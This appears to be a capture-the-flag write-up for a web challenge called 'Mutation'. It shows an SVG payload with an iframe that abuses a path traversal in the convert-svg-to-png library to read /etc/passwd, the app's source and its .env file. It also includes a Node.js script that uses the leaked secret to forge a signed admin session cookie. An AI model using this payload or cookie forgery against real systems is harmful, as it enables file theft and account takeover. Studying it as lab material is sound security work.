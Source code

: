 # [Web] Mutation

Mutation is an application that allows users to export SVG through the `/api/export` endpoint. POSTing a specially crafted SVG can be done, which will [exploit](https://github.com/advisories/GHSA-jv7g-9g6q-cxvw) a [path traversal vulnerability](https://gist.github.com/legndery/a248350bb25b8502a03c2f407cedeb14) in the `convert-svg-to-png` library.

The SVG can look like:

```
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```

Or with any path, such as:

 - `/app/index.js`
 - `/app/.env`
 - etc

We can dump the entire app source code with this method and download the text to image version of it

![index.js](./img/web_mutation_1.png)

![routes.js](./img/web_mutation_2.png)

![AuthMiddleware.js](./img/web_mutation_3.png)

We can even download the `.env` file used by the app to load the secret signing session cookies:

![dot env](./img/web_mutation_4.png)

Since the session cookies are base64 encoded, it is possible to decode them and learn their structure. And re-encode the cookie as expected by the `route.js`, with the username as `admin`:

![dot env](./img/web_mutation_5.png)

Finally, we reuse the secret found to recreate a cookie:

```
$ cat index.js
var session = require('cookie-session')
var cookieParser = require('cookie-parser')
var express = require('express')

// UUID: E7A8530E-72DC-43BB-9159-C342911C4306
// Cookie: eyJ1c2VybmFtZSI6IkU3QTg1MzBFLTcyREMtNDNCQi05MTU5LUMzNDI5MTFDNDMwNiJ9
// Signature: aU0b8KjHbsYd9UzbGWpVLq6H6GA

var app = express()
var secret = "5921719c3037662e94250307ec5ed1db"

app.use(cookieParser());
app.use(session({
  name: 'session',
  keys: [secret],
  maxAge: 24 * 60 * 60 * 1000 // 24 hours
}))

app.all('*', (req, res) => {
    req.session.username = "admin"
    res.status(200).send({message: 'ok'})
});

(async () => {
    app.listen(1337, '0.0.0.0', () => console.log('listening port 1337'))
})();
```

![Get cookie](./img/web_mutation_6.png)

Then use this signed cookie as our session:

![Get cookie](./img/web_mutation_7.png)
